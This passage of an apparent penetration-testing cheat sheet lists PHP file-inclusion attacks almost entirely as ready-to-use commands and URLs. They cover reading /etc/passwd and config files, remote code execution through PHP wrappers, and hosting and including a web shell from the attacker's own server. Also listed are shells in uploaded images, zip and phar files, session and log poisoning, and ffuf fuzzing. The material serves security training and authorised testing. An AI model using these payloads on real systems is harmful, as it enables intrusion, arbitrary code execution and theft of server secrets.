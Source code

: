 |`/index.php?language=../../../../etc/passwd%00`|Bypass appended extension with null byte (obsolete)|
|`/index.php?language=php://filter/read=convert.base64-encode/resource=config`|Read PHP with base64 filter|

## Remote Code Execution

|**Command**|**Description**|
|---|---|
|**PHP Wrappers**||
|`/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`|RCE with data wrapper|
|`curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`|RCE with input wrapper|
|`curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`|RCE with expect wrapper|
|**RFI**||
|`echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`|Host web shell|
|`/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`|Include remote PHP web shell|
|**LFI + Upload**||
|`echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`|Create malicious image|
|`/index.php?language=./profile_images/shell.gif&cmd=id`|RCE with malicious uploaded image|
|`echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`|Create malicious zip archive 'as jpg'|
|`/index.php?language=zip://shell.zip%23shell.php&cmd=id`|RCE with malicious uploaded zip|
|`php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`|Create malicious phar 'as jpg'|
|`/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`|RCE with malicious uploaded phar|
|**Log Poisoning**||
|`/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`|Read PHP session parameters|
|`/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`|Poison PHP session with web shell|
|`/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`|RCE through poisoned PHP session|
|`curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`|Poison server log|
|`/index.php?language=/var/log/apache2/access.log&cmd=id`|RCE through poisoned PHP session|

## Misc

|**Command**|**Description**|
|---|---|
|`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`|Fuzz page parameters|
|`ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`|Fuzz LFI payloads|
|`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`|Fuzz webroot path|
|`ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`|Fuzz server configurations|
|[LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)||
|[LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)||
|[Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)||
|[Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)||
|[Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)||